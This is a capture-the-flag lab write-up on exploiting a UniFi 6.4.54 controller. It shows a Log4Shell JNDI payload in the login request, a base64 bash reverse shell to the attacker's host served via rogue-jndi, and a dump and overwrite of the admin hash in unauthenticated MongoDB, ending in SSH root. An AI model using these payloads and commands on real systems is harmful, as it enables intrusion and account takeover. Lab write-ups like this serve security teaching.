<!--more-->

## Nmap

As always, I'm gonna run the Nmap scan against this machine IP address. The scan already completed. Here is the result.

### the result

```sql
# Nmap 7.92 scan initiated Fri Feb 18 13:10:18 2022 as: nmap -sC -sV -oN nmap/unified 10.129.96.149
Nmap scan report for 10.129.96.149
Host is up (0.22s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Fri, 18 Feb 2022 05:21:57 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404 
|     Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404 
|     Found</h1></body></html>
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 302 
|     Location: http://localhost:8080/manage
|     Content-Length: 0
|     Date: Fri, 18 Feb 2022 05:21:56 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Fri, 18 Feb 2022 05:21:56 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|     Request</h1></body></html>
|   Socks5: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Fri, 18 Feb 2022 05:21:57 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
|_http-title: Did not follow redirect to https://10.129.96.149:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=2/18%Time=620F2A45%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,84,"HTTP/1\.1\x20302\x20\r\nLocation:\x20http://localhost:8080
SF:/manage\r\nContent-Length:\x200\r\nDate:\x20Fri,\x2018\x20Feb\x202022\x
SF:2005:21:56\x20GMT\r\nConnection:\x20close\r\n\r\n")%r(HTTPOptions,84,"H
SF:TTP/1\.1\x20302\x20\r\nLocation:\x20http://localhost:8080/manage\r\nCon
SF:tent-Length:\x200\r\nDate:\x20Fri,\x2018\x20Feb\x202022\x2005:21:56\x20
SF:GMT\r\nConnection:\x20close\r\n\r\n")%r(RTSPRequest,24E,"HTTP/1\.1\x204
SF:00\x20\r\nContent-Type:\x20text/html;charset=utf-8\r\nContent-Language:
SF:\x20en\r\nContent-Length:\x20435\r\nDate:\x20Fri,\x2018\x20Feb\x202022\
SF:x2005:21:56\x20GMT\r\nConnection:\x20close\r\n\r\n<!doctype\x20html><ht
SF:ml\x20lang=\"en\"><head><title>HTTP\x20Status\x20400\x20\xe2\x80\x93\x2
SF:0Bad\x20Request</title><style\x20type=\"text/css\">body\x20{font-family
SF::Tahoma,Arial,sans-serif;}\x20h1,\x20h2,\x20h3,\x20b\x20{color:white;ba
SF:ckground-color:#525D76;}\x20h1\x20{font-size:22px;}\x20h2\x20{font-size
SF::16px;}\x20h3\x20{font-size:14px;}\x20p\x20{font-size:12px;}\x20a\x20{c
SF:olor:black;}\x20\.line\x20{height:1px;background-color:#525D76;border:n
SF:one;}</style></head><body><h1>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20
SF:Bad\x20Request</h1></body></html>")%r(FourOhFourRequest,24A,"HTTP/1\.1\
SF:x20404\x20\r\nContent-Type:\x20text/html;charset=utf-8\r\nContent-Langu
SF:age:\x20en\r\nContent-Length:\x20431\r\nDate:\x20Fri,\x2018\x20Feb\x202
SF:022\x2005:21:57\x20GMT\r\nConnection:\x20close\r\n\r\n<!doctype\x20html
SF:><html\x20lang=\"en\"><head><title>HTTP\x20Status\x20404\x20\xe2\x80\x9
SF:3\x20Not\x20Found</title><style\x20type=\"text/css\">body\x20{font-fami
SF:ly:Tahoma,Arial,sans-serif;}\x20h1,\x20h2,\x20h3,\x20b\x20{color:white;
SF:background-color:#525D76;}\x20h1\x20{font-size:22px;}\x20h2\x20{font-si
SF:ze:16px;}\x20h3\x20{font-size:14px;}\x20p\x20{font-size:12px;}\x20a\x20
SF:{color:black;}\x20\.line\x20{height:1px;background-color:#525D76;border
SF::none;}</style></head><body><h1>HTTP\x20Status\x20404\x20\xe2\x80\x93\x
SF:20Not\x20Found</h1></body></html>")%r(Socks5,24E,"HTTP/1\.1\x20400\x20\
SF:r\nContent-Type:\x20text/html;charset=utf-8\r\nContent-Language:\x20en\
SF:r\nContent-Length:\x20435\r\nDate:\x20Fri,\x2018\x20Feb\x202022\x2005:2
SF:1:57\x20GMT\r\nConnection:\x20close\r\n\r\n<!doctype\x20html><html\x20l
SF:ang=\"en\"><head><title>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x2
SF:0Request</title><style\x20type=\"text/css\">body\x20{font-family:Tahoma
SF:,Arial,sans-serif;}\x20h1,\x20h2,\x20h3,\x20b\x20{color:white;backgroun
SF:d-color:#525D76;}\x20h1\x20{font-size:22px;}\x20h2\x20{font-size:16px;}
SF:\x20h3\x20{font-size:14px;}\x20p\x20{font-size:12px;}\x20a\x20{color:bl
SF:ack;}\x20\.line\x20{height:1px;background-color:#525D76;border:none;}</
SF:style></head><body><h1>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20
SF:Request</h1></body></html>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 18 13:13:25 2022 -- 1 IP address (1 host up) scanned in 187.03 seconds
```

## port 8080

The Nmap scan result shows `port 8080` is open. It is the `http-proxy` let's navigate to the port. However, it redirects me to this link
`https://10.129.96.149:8443/manage/account/login?redirect=%2Fmanage`

## unifi - 6.4.54



Well, it is just a login page. The first thing I do is try to put some simple credentials such as `admin:admin`, `admin:password`, etc. Unfortunately, I can't get access to it but this page also has the version displayed in front of it.

With quick googling, I have found this. [sprocketsecurity - another log4j on the fire unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi). Turns out this version, is on fire with the new vulnerability from the java logging library, Log4j - [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## exploit

In the article, it says:
The vulnerability is in the `remember` (or in some versions the `username`) value issued in the login request. shown below:

```http
POST /api/login HTTP/2
Host: <TARGET> 
Content-Length: 109
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
User-Agent: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Content-Type: application/json; charset=utf-8
Accept: */*
Origin: https://<TARGET>
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://<TARGET>/manage/account/login?redirect=%2Fmanage
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username":"asdf","password":"asdfas","remember":"<PAYLOAD>","strict":true}
```

## how to test it is vulnerable to log4j

I find a way easier method to test it in the `official walkthrough` that you can download. Does it mean I'm not trying it and just reading it? Well, if you have that perception. Here is the blog post talking about that.



This [blog](https://www.hackthebox.com/blog/It-is-Okay-to-Use-Writeups) is written by two talented person [ippsec](https://twitter.com/ippsec) & [0xdf](https://twitter.com/0xdf)

Enough with all that, Let's test it. First I'm gonna fire up the `burpsuite` to `intercept` the `/api/login` endpoint. So, I can alter the request to be specific the `"remember"` parameter. Now, I need to put this payload :

```java
${jndi:ldap://Tun0 IP Address/test}
```


**JNDI** (`Java Naming and Directory Interface API`). By making calls to this API, applications locate resources and other program objects. </br>
**LDAP** `(Lightweight Directory Access Protocol`) The default port that LDAP runs on is `port 389`.




## tcpdump

Before sending the payload. First, let's set up the monitoring network on port 389 with `tcpdump`. This tool will let us monitor the network traffic/dump the network. So, open up another terminal and type:

```bash
sudo tcpdump -i tun0 port 389
```

After the tcpdump has been started, click the `Send` button.



The tcpdump output shows a connection being received on my machine. This proves that the application is vulnerable since it is trying to connect on the LDAP port 389.

## Rogue JNDI

Rogue JNDI is a malicious LDAP server for JNDI injection attacks. This will help me to receive connections back and execute malicious code. First, let's clone the Github repos of this application.

```bash
git clone https://github.com/veracode-research/rogue-jndi
```



The `rogue-jndi` is a Java application. In the `official walkthrough`. It says we need to install `Open-JDK` & `Maven` on our system to build the payload. 
However, if you're using the Linux hacking distribution such as `parrot os` & `kali`. You might have already installed it in those systems but if you don't. Type this to install it make sure to run it with sudo privilege.

```bash
sudo apt update # update the package 
sudo apt install openjdk-11-jdk -y # install open-jdk
sudo apt install maven # install maven
```

After all, is done, let's build the `Rogue-JNDI` Java application.

```bash
cd rogue-jndi && mvn package
```



## create a reverse shell payload

This will create a `.jar` file in `rogue-jndi/target/` directory called `RogueJndi-1.1.jar`. Before we can run the application. We need to create our reverse shell payload first and encode it with base64 to prevent any encoding issues.

```bash
➜ echo 'bash -c bash -i >& /dev/tcp/Tun0 IP/Port 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwL1R1bjAgSVAvUG9ydCAwPiYxCg==
```

## rogue-jndi arguments

After the payload had been created, start the `Rogue-JNDI` application with these arguments. `Example down below`;
Make sure to run the Netcat listener on your desire/reverse_shell port to catch the connection back.

```bash
➜  java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING}|{base64,-d}|{bash,-i}" --hostname "Tun0 IP Address"
```



Going back to `burpsuite`. Let's intercept the requests once more but this time the payload going to be this instead; <br>
After the payload is already set in place. Now, just click a single button it is the `Send` button & BINGO!

```java
${jndi:ldap://Tun0 IP Address:1389/o=tomcat}
```



## upgrade shell using script
_<font color="yellow">type this command to upgrade shell:</font>_
```bash
script /dev/null -c bash
```

## mongoDB
In this article [sprocketsecurity - another log4j on the fire unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi). it says the `MongoDB` instance storing all application is listening on localhost `without authentication`. This means we can extract the password, alter the data, add our password to it, etc.

## checking mongoDB is running
Just type this command on the victim machine. The output shows us `MongoDB` is running on the victim machine on `port 27117`.

```bash
ps aux | grep mongo
```



Well, in the article [sprocketsecurity - another log4j on the fire unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) it talks about cracking the password hash and adding our `x_shadow` admin but in the `official walkthrough` did a kinda similar thing but in a more simple way. In this case, you can learn every way to interact or alter the data in `MongoDB`. I already trying them both but in this writeup, I choose the `official walkthrough` way to make it not a super long writeup. 

In the [sprocketsecurity - another log4j on the fire unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) article. I saw that they interact with the `UniFi` database called `ace`. So, I'm thinking let's try it with the `ace` database and that's the correct DB name. <br>
_<font color="yellow">ace is the default UniFi database</font>_

## dump user/password from mongoDB
We already know MongoDB exist in victim machine. Now, we can dump user/password from it with this command:

```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson)"
```



After we press `Enter`. The output is so ridiculous its dumps all users, email, password hash, etc. The most important data we want to take a look at is `administrator`. 

## change administrator x_shadow
So, as I said before, I'm gonna use the `official walkthrough` way to change administrator `x_shadow` but again it is up to you. How you want to approach it. 
Well, the first thing we want to do is generate a `sha-512` hash. To do this we can use the `mkpasswd` command-line utility. So, the command should look like this:

## generate sha-512 hash

```bash
mkpasswd -m sha-512 yourdesirepassword
```



Let's proceed to replacing the existing hash with one we created. To do it, type this command:

```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA-512 Hash Generated"}})'
```



Now, we need to verify that the password has been updated in the `MongoDB` by running the same command to dump the user/password. The hash appears to have been updated.



## login page
Well, let's try login with the username `administrator` and password to whatever you put it as the hash. In my case, it will be `drjohn`. DONE!


## steal SSH creds
The Nmap scan result previously shows that `port 22/SSH` is open. To gain access through SSH we must need a valid credential. However, luck is on our side. We can grab ssh credentials by navigating to the setting page by clicking the bottom left button that looks like a gear. Then, scroll down.



## ssh as root

Let's log in as root with the creds we found. SUCCESS!!! 

